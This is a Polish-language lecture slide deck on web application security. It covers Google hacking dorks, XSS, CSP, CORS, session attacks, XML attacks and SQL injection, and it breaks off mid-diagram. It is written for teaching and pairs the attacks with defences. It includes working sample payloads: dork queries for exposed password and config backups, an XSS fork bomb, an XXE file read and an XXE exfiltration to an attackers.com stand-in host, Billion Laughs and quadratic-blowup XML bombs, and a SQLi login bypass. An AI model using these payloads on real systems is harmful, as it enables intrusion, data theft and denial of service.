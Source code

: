 #+TITLE: Bezpieczeństwo aplikacji webowych
#+AUTHOR: Marcin Mela
#+EMAIL:  
#+LANGUAGE: en
#+REVEAL_THEME: solarized
#+REVEAL_TRANS: linear
#+REVEAL_EXTRA_CSS: reveal-local.css
#+OPTIONS: num:nil ^:nil
#+OPTIONS: reveal_center:t reveal_progress:t reveal_history:nil reveal_control:t
#+OPTIONS: reveal_rolling_links:t reveal_keyboard:t reveal_overview:t
#+OPTIONS: reveal_width:1200 reveal_height:600
#+OPTIONS: toc:1
 
* Wprowadzenie
** Słowo wstępu

#+BEGIN_QUOTE
"What do Linked In, Target, Yahoo, Sony and Adobe all have in common?

They have all been hacked, releasing millions of pieces of personal
information and costing at least as many dollars."

-- Matthew Casperson ("Full Stack Developer")
#+END_QUOTE

** Złote myśli

#+BEGIN_QUOTE
Moja aplikacja jest bezpieczna.
#+END_QUOTE

#+BEGIN_QUOTE
Po co ktoś chciałby włamywać się do mojej aplikacji?
#+END_QUOTE

#+BEGIN_QUOTE
Aplikacje pisane w Javie są bezpieczniejsze niż od tych pisanych w PHP
#+END_QUOTE

#+BEGIN_QUOTE
Zapewniliśmy bezpieczeństwo aplikacji wymuszając całą komunikację po HTTPS.
#+END_QUOTE

#+BEGIN_QUOTE
Ten plik został zabezpieczony w tak zwanym głębokim ukryciu, jak to mówią informatycy.
#+END_QUOTE

** Typowa web-aplikacja

#+CAPTION: Typowa web-aplikacja
#+ATTR_HTML: :align center :height 500px
[[./images/WebApplication.png]]

** Przykładowe podatności - Spring Framework
- CVE-2014-1904 :: Cross-site scripting (XSS) vulnerability in
                   web/servlet/tags/form/FormTag.java in Spring MVC in
                   Spring Framework 3.0.0 before 3.2.8 and 4.0.0
                   before 4.0.2 allows remote attackers to inject
                   arbitrary web script or HTML via the requested URI
                   in a default action.

- CVE-2013-6429 :: The SourceHttpMessageConverter in Spring MVC in
                   Spring Framework before 3.2.5 and 4.0.0.M1 through
                   4.0.0.RC1 does not disable external entity
                   resolution, which allows remote attackers to read
                   arbitrary files, cause a denial of service, and
                   conduct CSRF attacks via crafted XML, aka an XML
                   External Entity (XXE) issue, and a different
                   vulnerability than CVE-2013-4152 and
                   CVE-2013-7315. 

** Przykładowe podatności - Serwery aplikacji

- Java Unserialize Vulnerability ::
  - http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/
  - http://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles

** Programiści
Programiści często korzystają z online-owych narzędzi jak:
- kodowanie URL, base64
- liczenie skrótów MD5, SHA1 itp
- formatowanie kodu
- walidacja xml
- udostępnianie/współpraca nad fragmentami kodu

Nie mając żadnej informacji komu i gdzie przekazują te informacje. 

* Aspekt prawny

Zabawy w niezamówione testy bezpieczeństwa mogą mieć swoje (przykre)
prawne następstwa.

- http://prawo.vagla.pl/node/8154
- http://di.com.pl/precedensowy-wyrok-w-sprawie-sql-injection-23837
- http://www.proline.pl/?n=haker-kontra-multimedia-dane-zle-zabezpieczone

* Architektura a bezpieczeństwo
** Monolith

#+CAPTION: Architektura monolityczna
#+ATTR_HTML: :align center :height 500px
[[./images/Monolith.png]]

** Single Page Application
- Kod frontend-u przejmuje części dotychczas typowe dla serwera:
  budowa widoków, nawigacja, a nawet local storage
- Architekura SPA przerzuca dużą cześć odpowiedzialności za
  bezpieczeństwo na klienta (przeglądarkę)
- Pojawia się pojęcie zarządzania sesją po stronie klienta - serwer
  dostarcza tylko czyste dane
- JS-owe frameworki MVC (np Angular) dostarczają mechanizmy pomagające
  zapobiegać niektórym atakom (XSS, CSRF)
- Logika front-endu jest całkowicie przeźroczysta
- Widoki, requesty, endpointy dla różnych ról są widoczne dla każdego
  użytkownika
- Serwer wciąż nie może ufać danym przychodzącym od klientów

** Microservices

#+BEGIN_QUOTE
The term "Microservice Architecture" has sprung up over the last few
years to describe a particular way of designing software applications
as suites of independently deployable services. 

-- Martin Fowler
#+END_QUOTE

** Architektura mikroserwisów

#+CAPTION: Architektura mikroserwisów
#+ATTR_HTML: :align center :height 500px
[[./images/Microservices.png]]

** Bezpieczeństwo mikroserwisów
Architektura mikro serwisów stawia nowe pytania w kwestii
bezpieczeństwa:
- Czy poszczególne części systemu powinny być dostępne z zewnątrz?
- Jak jesteśmy zabezpieczeni przed niepowołanym dostępem, gdy
  atakujący przedostanie się "do środka"?
- Jaki może być zasięg strat jeśli atakujący dostanie się do dowolnego
  z serwisów?
- Jak rozwiązaliśmy kwestie wzajemnego zaufania pomiędzy serwisami?
  Czy mamy serwisy które ufają każdemu?
- W jaki sposób autoryzujemy requesty? Czy informacja o inicjatorze
  requestu jest przekazywana pomiędzy serwisami czy jest tracona na
  api gateway?
- Czy serwisy komunikują się ze sobą w bezpieczny sposób?
- Jaki jest poziom ryzyka dla poszczególnych serwisów? Czy były
  testowane pod kątem typowych podatności?
- Czy wdrożyliśmy typowe praktyki bezpieczeństwa, polityki haseł,
  upgrade-u komponentów?

* Google hacking
** Wstęp

- Wyszukiwarka Google indeksuje informacje udostępnione przez strony i
  aplikacje internetowe, często w sposób niezamierzony czy
  nieprzewidziany przez autorów
- Google udostępnia mechanizm zaawansowanego wyszukiwania i tzw
  "search operators", które można użyć by zbudować zapytanie
- Atakujący może użyć wyszukiwarki Google na kilka sposobów:
  - wybrać stronę ze względu na interesują go treść, podatność,
    rodzaj pliku
  - wyszukać aplikacje działające na określonym serwerze, wersji
    frameworka czy używające konkretnej biblioteki
  - dokładnie przeszukać jedna stronę, poznać słabe punkty, dowiedzieć
    się jak najwięcej o strukturze, zasobach, odnaleźć "ukryte" zasoby
  - dotrzeć do danych których nasza strona już nie zawiera ale wciąż
    są w cache Google'a

#+REVEAL: split

- Więcej informacji:
  - http://niebezpiecznik.pl/edu/google_hacking.pdf
  - https://www.blackhat.com/presentations/bh-europe-05/BH_EU_05-Long.pdf

- Baza zapytań:
  - https://www.exploit-db.com/google-hacking-database/
  - http://www.hackersforcharity.org/ghdb/

** Przykłady

- intitle:index.of -inurl:index.php Metallica
- inurl:SELECT inurl:FROM inurl:WHERE
- filetype:bak site:www.example.com mysql warning
- filetype:bak inurl:"htaccess|passwd|shadow|htusers"
- http://admin:*@www 
- filetype:bak inurl:include.php
- filetype:bak inurl:config.php
- filetype:log admin account info

#+REVEAL: split

- intitle:index.of -inurl:index.php zdjecia
- "Access denied for user"  "using password"  
- "The full stack trace of the root cause is available in the Apache Tomcat"
- filetype:bak mysql_connect
- intitle:"Index of" .mysql_history
- "web file browser" "use regular expression"
- intitle:phpMyAdmin "Welcome to phpMyAdmin" "running on * as root@"
- intitle:phpMyAdmin "Welcome to phpMyAdmin ***" "running on * as *"
- intitle:Tomcat Status | inurl:/status?full=true
- inurl:jmx-console

** Przykłady: kamerki, drukarki, switche
- inurl:”ViewerFrame?Mode=”
- inurl:indexFrame.shtml Axis
- inurl:view/indexFrame.shtml
- intitle:”live view” intitle:axis
- inurl:view/view.shtml
- inurl:hp/device/this
- "speedstream router management interface"
- "videoconference management system" ext:htm

* Cross Site Scripting (XSS)
** Wprowadzenie

*XSS* to obecnie jeden z najpopularniejszych ataków. Uruchamiany jest
zawsze w przeglądarce (kliencie) chociaż wstrzyknięcie złośliwego kodu
może być po stronie serwera lub klienta.  

Sprawnie użyty XSS pozwala:
- wykraść dane dostępowe do aplikacji
- wykraść identyfikatory sesji
- zmienić treści na stronie
- wykonać DoS
- zaatakować inne strony
- zbudować armię "zombie" z użytkowników zaatakowanej aplikacji

Problemy z XSS mieli: MySpace, Facebook, Google, FBI, CIA i tysiące innych.
  
** XSS - rodzaje
Można wyróżnić 3 podstawowe rodzaje ataków XSS
- Reflected XSS (Non Persistent XSS)
- Stored XSS (Persistent XSS)
- DOM Based XSS

** Reflected XSS 
Występuje gdy aplikacja (serwer) wykorzystuje dane bezpośrednio z
parametrów. Atakujący podrzuca link osobie atakowanej (email, skype,
alias), która po kliknięciu dostanie treść z wstrzykniętym kodem.

Załóżmy, że wyszukiwarka na stronie jest podatna na XSS
#+BEGIN_SRC plantuml :file images/generated-reflectedxss-intro1.png :results silent
@startsalt
{
  http://www.example.com/search.html 
  ......
  {
    Szukaj towaru |  " laptop           "
    [  Ok  ]
  }
}
@endsalt
#+END_SRC

#+CAPTION: Introduction to the Reflected XSS attack
#+ATTR_HTML: :align center
[[./images/generated-reflectedxss-intro1.png]]

#+BEGIN_SRC plantuml :file images/generated-reflectedxss-intro2.png :results silent
@startsalt

skinparam backgroundcolor transparent
@startsalt
{
  http://www.example.com/search.html?q=laptop 
  ......
  {
    Nie znaleziono nic dla frazy: laptop
  }
}
@endsalt
#+END_SRC

#+CAPTION: Introduction to the Reflected XSS attack
#+ATTR_HTML: :align center
[[./images/generated-reflectedxss-intro2.png]]

Można to wykorzystać do ataku:
#+BEGIN_EXAMPLE
http://www.example.com/search.html?q=<script>alert('hacked')</script>
#+END_EXAMPLE

** Reflected XSS - scenariusz
#+BEGIN_SRC plantuml :file images/generated-reflectedxss-scenario.png :results silent
skinparam backgroundcolor transparent
hide footbox

actor "Zły\nczłowiek" as Bob #red
actor "Dobry\nczłowiek" as John 

participant "Aplikacja\nwebowa" as App
   
Bob -> John : Email z przygotowanym linkiem
John -> App : Klika link z email-a
activate App
App --> John : Generuje odpowiedź bazując\nna danych z parametrów requestu
deactivate App
John -> John : Przeglądarka wyświetla odpowiedź\n i uruchamia wstrzyknięty kod

group Opcjonalnie 
  John -> Bob : Złośliwy kod przekazuje id sesji użytkownika
  Bob -> App : Atakujący wykorzystuje przekazaną sesję\n(atak "Session hijack")
end
#+END_SRC

#+CAPTION: Scenario of the Reflected XSS attack
#+ATTR_HTML: :align center :height 500px
[[./images/generated-reflectedxss-scenario.png]]

** Stored XSS

Mówimy o *Stored XSS* gdy złośliwie wstrzyknięty kod jest
przechowywany i serwowany użytkownikom przez samą aplikację.

Przykład: Atakujący użył formularza dodawania komentarzy by wstrzyknąć
i zapisać swój kod, który potem zostanie wysłany do pozostałych
użytkowników odwiedzających komentowany artykuł. 

** Stored XSS - scenariusz
#+BEGIN_SRC plantuml :file images/generated-storedxss-scenario.png :results silent
skinparam backgroundcolor transparent
hide footbox

actor "Zły\nczłowiek" as Bob #red
actor "Dobry\nczłowiek" as John
participant "Aplikacja\nwebowa" as App
database "Baza\ndanych" as DB    

Bob -> App : Wykorzystuje podatność\nby wstrzyknąć kod

activate App
App -> DB : Zapisuje złośliwy kod
DB --> App : OK
App --> Bob : 200 OK
deactivate App

... Po pewnym czasie ...

John -> App : Prosi o stronę
activate App
App -> DB : Pobranie danych
DB --> App : Dane z wstrzykniętym kodem
App --> John : 200 OK
deactivate App

John -> John : Przeglądarka wyświetla stronę\ni uruchamia wstrzyknięty kod

group Opcjonalnie 
  John -> Bob : Złośliwy kod przekazuje id sesji użytkownika
  Bob -> App : Atakujący wykorzystuje przekazaną sesję\n(atak "Session hijack")
end
#+END_SRC

#+CAPTION: Scenario of the Stored XSS attack
#+ATTR_HTML: :align center :height 500px
[[./images/generated-storedxss-scenario.png]]

** DOM Based XSS

Ta odmiana XSS wykorzystuje podatności w kodzie po stronie klienta
(przeglądarki) w odróżnieniu od Reflected XSS i Stored XSS które
traktujemy jako problemy po stronie serwera.

W swoim działaniu jest podobny do Reflected XSS z tą różnicą, że
złośliwy kod nie jest przetwarzany przez serwer a jedynie odsyłany do
przeglądarki (często nie jest wysyłany do serwera). Zapobieganie tym
atakom odbywa się głównie w kodzie JavaScript.

** DOM Based XSS - scenariusz

#+BEGIN_SRC plantuml :file images/generated-domxss-scenario.png :results silent
skinparam backgroundcolor transparent
hide  footbox

actor "Zły\nczłowiek" as Bob #red
actor "Dobry\nczłowiek" as John 

participant "Aplikacja\nwebowa" as App
   
Bob -> John : Email z przygotowanym linkiem
John -> App : Klika link z email-a
activate App
App --> John : Przepisuje parametry requestu
deactivate App
John -> John : Przeglądarka wyświetla odpowiedź\nczyta parametry requestu\ni uruchamia wstrzyknięty kod

group Opcjonalnie 
  John -> Bob : Złośliwy kod przekazuje id sesji użytkownika
  Bob -> App : Atakujący wykorzystuje przekazaną sesję\n(atak "Session hijack")
end
#+END_SRC

#+CAPTION: Scenario of the DOM based XSS attack
#+ATTR_HTML: :align center :height 500px
[[./images/generated-domxss-scenario.png]]

** XSS Fork Bomb
#+BEGIN_SRC js
<script>
while (true) {
  var w = window.open();
  w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
}
</script>
#+END_SRC

#+BEGIN_SRC js
<a href="#" onload="function() { while (true) { var w = window.open(); w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML); } }">XSS fork bomb</a>
#+END_SRC

** XSS Shell
Przejęcie komputera za pomocą XSS-a?

- Instalujemy XSS Shell na naszym serwerze
  (https://github.com/portcullislabs/xssshell-xsstunnell)
- Wstrzykujemy skrypt inicjujący XSS Shell na atakowanej stronie
- Czekamy kiedy ofiary pojawią się online i wykonujemy akcje: 
  - Pokaż alert
  - Pokaż cookie
  - Keylogger
  - Zawartość schowka (IE)

** XSS - zapobieganie

- Filtry HTTP które blokują przetwarzanie requestów zawierających
  potencjalne wstrzyknięcia
- Escape-owanie znaków html ( "<" na &lt; itd) - =ESAPI.encoder()=
- Parsery/filtry/sanitizer-y(?) HTML które potrafią przepuścić wybrane
  zakres znaczników i ich atrybutów
  - https://github.com/owasp/java-html-sanitizer
  - https://github.com/finn-no/xss-html-filter
  - https://github.com/Vereyon/HtmlRuleSanitizer
- Używać mechanizmy template-ów które oferują funkcje auto-escape-owania

** XSS - HTML sanitizer

Przykład użycia OWASP HTML Sanitizer:

#+BEGIN_SRC java
PolicyFactory policy = new HtmlPolicyBuilder()
    .allowElements("a")
    .allowUrlProtocols("https")
    .allowAttributes("href").onElements("a")
    .requireRelNofollowOnLinks()
    .build();
String safeHTML = policy.sanitize(untrustedHTML);
#+END_SRC

** XSS - Session cookie

Dla cookie reprezentującego ID sesji warto ustawić opcję =httpOnly= na
=true= by przeglądarka zablokowała skryptom dostęp do jego wartości:

#+BEGIN_SRC java
Cookie cookie = getMyCookie("myCookieName");
cookie.setHttpOnly(true);
#+END_SRC

#+BEGIN_SRC xml
<!--Since JEE6, we can use web.xml to secure session cookies -->
<session-config>
 <cookie-config>
  <http-only>true</http-only>
 </cookie-config>
</session-config>
#+END_SRC

** Content Security Policy
- Nowy standard pozwalający zdefiniować dozwolone pochodzenie zasobów
  (JS, CSS, obrazki, pluginy, fonty) w aplikacji webowej
- Mechanizm przeglądarki stworzony jako obrona przed XSS
- Pozwala ograniczyć dozwolone destynacje dla requestów, websocketów
  czy formularzy
- Daje możliwoś zablokowania niechcianych elementów jak obiekty Flash
  czy ramki
- Blokuje skrypty "inline" czy =eval()=
- Powoli wspierany przez frameworki MVC (AngularJS, Ember.js) które
  mają wbudowane tryby zgodności
- Działa w Chrome, Firefox, Safari i częściowo w IE10
  (=X-Content-Security-Policy=). Warto sprawdzić wsparcie w różnych
  przeglądarkach (http://caniuse.com/#search=CSP)

#+REVEAL: split

- Opiera się na nagłówkach odpowiedzi HTTP ustawianych przez serwer
- Zasada działania to w skrócie: "blokuj wszystko, oprócz podanych
  wyjątków"

#+BEGIN_EXAMPLE
Content-Security-Policy: script-src 'self' https://apis.google.com
#+END_EXAMPLE

- Oferuje mechanizm raportów powiadamiający o naruszeniach polityki
  bezpieczeństwa
#+BEGIN_EXAMPLE
Content-Security-Policy: default-src 'self';  https://apis.google.com; report-uri /reportsConsumer;
{
  "csp-report": {
    "document-uri": "http://mypage.org/index.html",
    "referrer": "http://badguy.com/",
    "blocked-uri": "http://badguy.com/malicious.js",
    "violated-directive": "script-src 'self' https://apis.google.com",
    "original-policy": "script-src 'self' https://apis.google.com; report-uri http://mypage.org/reportsConsumer"
  }
}
#+END_EXAMPLE

#+REVEAL: split

- Istnieje "łagodniejsza" odmiana mechanizmu CSP - która tylko
  raportuje nadużycia, ale ich nie blokuje
#+BEGIN_EXAMPLE
Content-Security-Policy-Report-Only: default-src 'self'; https://apis.google.com; report-uri /reportsConsumer;
#+END_EXAMPLE

#+REVEAL: split

- Aktywnie rozwijany:
  - 1.0 :: 2015-02-19 - https://www.w3.org/TR/2015/NOTE-CSP1-20150219/
  - 2.0 :: 2015-07-21 - https://www.w3.org/TR/CSP2/ (obecnie
           rekomendowana)
  - 3.0 (draft) :: https://w3c.github.io/webappsec-csp/

** Cross-Origin Resource Sharing

#+BEGIN_QUOTE
Cross-origin resource sharing (w skrócie CORS) – mechanizm
umożliwiający współdzielenie zasobów pomiędzy serwerami znajdującymi
się w różnych domenach. Ściślej rzecz biorąc chodzi o możliwość
wykonywania żądań AJAX między takimi serwerami przy zachowaniu pewnych
ograniczeń co do dopuszczalnego źródła żądania.

-- https://pl.wikipedia.org/wiki/Cross-Origin_Resource_Sharing
#+END_QUOTE

** CORS
- standard W3C
- oparty o nagłówki HTTP
- rozszerza standardowe podejście *same origin* jednocześnie
  zapewniając niezbędny poziom bezpieczeństwa
- definiuje sposób w jaki przeglądarka i serwer dogadują się w kwestii
  wykonania requestów *cross origin*
- wspierany przez praktycznie wszystkie współczesne przeglądarki

** CORS - scenariusz 1
#+BEGIN_SRC plantuml :file images/generated-cors1-scenario.png :results silent
skinparam backgroundcolor transparent
hide footbox

participant "JavaScript\nhttp://foo.com" as foo
participant "Web Browser" as browser
participant "Server\nhttp://bar.com" as bar

foo -> browser : POST bar.com/something

group optional
  browser -> bar : OPTIONS bar.com/something\nOrigin: http://foo.com
  bar --> browser: Access-Control-Allow-Origin: http://foo.com\nAccess-Control-Allow-Methods: POST, PUT
  browser -> browser: Check if ACAO header\n equals * or http://foo.com

  alt successful case
    browser -> bar : POST bar.com/something\nOrigin: http://foo.com
    bar --> browser: Access-Control-Allow-Origin http://foo.com\nsomethingInteresting  
    browser --> foo : somethingInteresting
  else missing CORS headers
    browser --> foo : Error
  end
end
#+END_SRC

#+CAPTION: Scenario of the CORS for POST
#+ATTR_HTML: :align center :height 500px
[[./images/generated-cors1-scenario.png]]

** CORS - scenariusz 2
#+BEGIN_SRC plantuml :file images/generated-cors2-scenario.png :results silent
skinparam backgroundcolor transparent
hide footbox

participant "JavaScript\nhttp://foo.com" as foo
participant "Web Browser" as browser
participant "Server\nhttp://bar.com" as bar

foo -> browser : GET bar.com/something
browser -> bar : GET bar.com/something\nOrigin: http://foo.com
bar --> browser: Access-Control-Allow-Origin: http://foo.com\nsomethingInteresting 
browser -> browser: Check if ACAO header\n equals * or http://foo.com

alt successful case
browser --> foo : somethingInteresting
else missing CORS headers
browser --> foo : Error
end
#+END_SRC

#+CAPTION: Scenario of the CORS for GET
#+ATTR_HTML: :align center :height 500px
[[./images/generated-cors2-scenario.png]]

* Ataki na sesje
** Session Prediction
Atak polegający na przewidywaniu identyfikatora sesji jaki wygenerował
lub wygeneruje serwer. Podatne mogę być własne implementacje
zarządzania sesją w tym mechanizm trwałej sesji (persistent session,
"remember me").

Wszędzie tam gdzie identyfikator jest generowany na podstawie danych,
jest zbyt mało losowy lub za krótki, może pojawić się podatność na
tego typu atak.

Poniższe identyfikatory nie gwarantują bezpieczeństwa sesji:
#+BEGIN_EXAMPLE
Cookie: JSESSIONID=marcin
Cookie: JSESSIONID=10225362
Cookie: JSESSIONID=sw2r1
Cookie: JSESSIONID=bWFyY2luLTE0NDg3OTcyMzE%3D
Cookie: JSESSIONID=202cb962ac59075b964b07152d234b70
#+END_EXAMPLE

** Session Hijacking
Atak ten polega na użyciu identyfikatora sesji który został prawidłowo
wygenerowany dla innego użytkownika. Istnieje kilka realizacji tego
ataku:
- Cross Site Scripting
- Podsłuchiwanie ruchu sieciowego
- Man in the middle (np fałszywy Access Point)
- Man in the browser (Trojany dla przeglądarek)

** Session Fixation
*Session Fixation* to wykorzystanie podatności mechanizmu zarządzania
sesjami, który nie zmienia identyfikatora sesji przy rozpoczęciu nowej
sesji (np. po prawidłowym logowaniu się do systemu) a korzysta z już
istniejącego.

Atak ten można przeprowadzić na kilka sposób:
- podsyłając link z identyfikatorem sesji jako parametr url
- użyć XSS by ustawić wartość session-cookie
- dodając nagłówki przy atakach MITM czy MITB

** Session Fixation - scenariusz

#+BEGIN_SRC plantuml :file images/generated-session-fixation-scenario.png :results silent
skinparam backgroundcolor transparent
hide  footbox

actor "Zły\nczłowiek" as Bob #red
actor "Dobry\nczłowiek" as John 

participant "Aplikacja\nwebowa" as App

Bob -> App : Loguje się\nhttp://www.example.com/login
activate App
App --> Bob: JSESSIONID=xyz
deactivate App
   
Bob -> John : Email z przygotowanym linkiem\nhttp://www.example.com/login?jsessionid=xyz
John -> App : Loguje się używając\nadresu z email-a
activate App
App->App : Zaloguj użytkownika
App -> App : Sesja xyz już istnieje,\nnie trzeba tworzyć nowej

App --> John : JSESSIONID=xyz
deactivate App

group Loop 
  Bob -> App: Sprawdza czy użytkownik już się zalogował
end

Bob -> App: Pracuje w kontekście przejętej sesji
#+END_SRC

#+CAPTION: Scenario of Session Fixation attack
#+ATTR_HTML: :align center :height 500px
[[./images/generated-session-fixation-scenario.png]]

* Ataki związane z przetwarzaniem XML
** XML External Entity (XXE)

Atak *XML XXE* to atak ukierunkowany na parsery XML które
przetwarzając dokument akceptują nawiązania do zewnętrznych elementów
w DTD (domyślna konfiguracja wielu parserów).

#+BEGIN_SRC xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<foo>&xxe;</foo>
#+END_SRC

** XML XEE - wykorzystanie

- czytanie plików na dysku serwera
- przejście przez firewall i dostęp do wewnętrznych zasobów (atak na
  intranet)
- atak na zewnętrzny serwer
- atak DOS:
  - duży plik na innym serwerze
  - =/dev/urandom=
  - rekurencyjna definicja elementów

** XML XEE - Przesłanie danych

Wysłany dokument: 
#+BEGIN_SRC xml
<!ELEMENT foo ANY >
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://abcd.dns.attackers.com/file.dtd">
%dtd;]>
#+END_SRC

Dokument =file.dtd= na zdalnym serwerze:
#+BEGIN_SRC xml
<!--?xml version="1.0" encoding="ISO-8859-1"?-->
<!ENTITY % all "<!ENTITY send SYSTEM 'gopher://abcd.dns.attackers.com:443/xxe?%file;'>">
%all;
#+END_SRC

Dokładny opis: http://foxglovesecurity.com/2015/10/26/car-hacking-for-plebs-the-untold-story/

** Billion Laughs

Atak DoS na parsery XML (znany też jako "XML Bomb" lub "Exponential
Entity Expansion attack").

#+BEGIN_EXAMPLE
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>

<lolz>&lol9;</lolz>
#+END_EXAMPLE

** Quadratic Blowup

Atak podobny do Billion Laughs, z tym że zamiast wielokrotnie
zagnieżdżonej struktury używamy powtórzenia dużych elementów. Pozwala
to obejść ograniczenia ilości zagnieżdżeń.

#+BEGIN_SRC xml
<?xml version="1.0"?>
<!DOCTYPE kaboom [
  <!ENTITY a "aaaaaaaaaaaaaaaaaa..50kB..aaa">
]>
<kaboom>&a;&a;&a;&a;&a;&a;&a;&a;&a;...50k...</kaboom>
#+END_SRC

** Python - XML vulnerabilities

#+BEGIN_EXAMPLE
https://docs.python.org/2.7/library/xml.html#xml-vulnerabilities
#+END_EXAMPLE

| kind                      | sax | etree  | minidom | pulldom | xmlrpc |
|---------------------------+-----+--------+---------+---------+--------|
| billion laughs            | Yes | Yes    | Yes     | Yes     | Yes    |
| quadratic blowup          | Yes | Yes    | Yes     | Yes     | Yes    |
| external entity expansion | Yes | No     | No      | Yes     | No     |
| DTD retrieval             | Yes | No     | No      | Yes     | No     |
| decompression bomb        | No  | No     | No      | No      | Yes    |

** Ataki XML - zapobieganie

Na ataki XMLem podatne są parsery dla praktycznie wszystkich języków
(Java, .NET, Python, PHP, platformy mobilne itd.), jednakże wiele z
nich można skonfigurować tak by nie rozwiązywała zewnętrznych
elementów bądź zagnieżdżonych definicji w DTD.

Można też całkowicie pozbyć się DTD zanim dokument XML zostanie
przekazany do parsera.

* SQL Injection
** Wprowadzenie
- Atak SQL injection jest możliwy gdy dane wejściowe od użytkownika są
  użyte do budowy zapytań SQL, najczęściej poprzez konkatenację z
  łańcuchami budującymi docelowe zapytanie
- Jeden z groźniejszych ataków na aplikacje internetowe, pozwalający
  na:
  - wykradanie całych baz danych
  - modyfikacje danych
  - ataki DoS 
- Praktycznie rzecz biorąc pojedyncza podatność na SQLi może
  doprowadzić do całkowitego przejęcia kontroli nad aplikacją
- Kiedyś bardzo "popularny" obecnie trochę stracił na znaczeniu, ale
  może czeka go wielki powrót?

#+REVEAL: split

- Złośliwy kod może zostać wstrzyknięty praktycznie każdym kanałem
  gdzie przekazywane są dane wejściowe do systemu:
  - parametry
  - formularze
  - ciasteczka
  - nagłówki HTTP
  - obiekty JSON/XML w request-cie
  - parametry metod w webservice-ach
  - dane z bazy danych

#+REVEAL: split

- Na SQLi podatne są wszystkie typu zapytań SQL:
  - SELECT
  - UPDATE
  - INSERT
  - ALTER, DROP itp
  - niektóre procedury składowane

** Zarys działania
Jeśli nasza aplikacja buduje zapytanie odpowiedzialne za logowanie
użytkowników w ten sposób:

#+BEGIN_SRC java
String sql = "SELECT userId FROM users WHERE login='" + 
             login + "' AND password='" + pass + "'";
#+END_SRC

to wysyłając parametry:

#+BEGIN_EXAMPLE
login=admin'--
pass=cokolwiek
#+END_EXAMPLE

efektywnie wygenerujemy zapytanie:

#+BEGIN_SRC sql
SELECT userId FROM users WHERE login='admin'-- AND password='cokolwiek'
#+END_SRC

** Scenariusz
1. Szukanie podatności
2. Poznanie struktury zapytania w którym jest użyta odkryta podatność
3. Odkrycie rodzaju bazy danych
4. Poznanie struktury bazy
5. Wykonywanie własnych zapytań

** Scenariusz
#+BEGIN_SRC plantuml :file images/generated-sql-scenario.png :results silent
skinparam backgroundcolor transparent
actor "Zły człowiek" as Bob #red
participant "Aplikacja webowa" as App
 
loop Szukanie podatności
  Bob -> App : Request 1
  ... ...
  Bob -> App : Request n
end
 
loop Poznanie struktury zapytania
  Bob -> App : Request 1
  ... ...
  Bob -> App : Request n
end
 
loop Odkrycie rodzaju bazy danych
  Bob -> App : Request 1
  ... ...
  Bob -> App : Request n
end
 
loop Poznanie struktury bazy
  Bob -> App : Request 1
  ... ...
  Bob -> App : Request n
end
 
loop Wykonywanie własnych zapytań
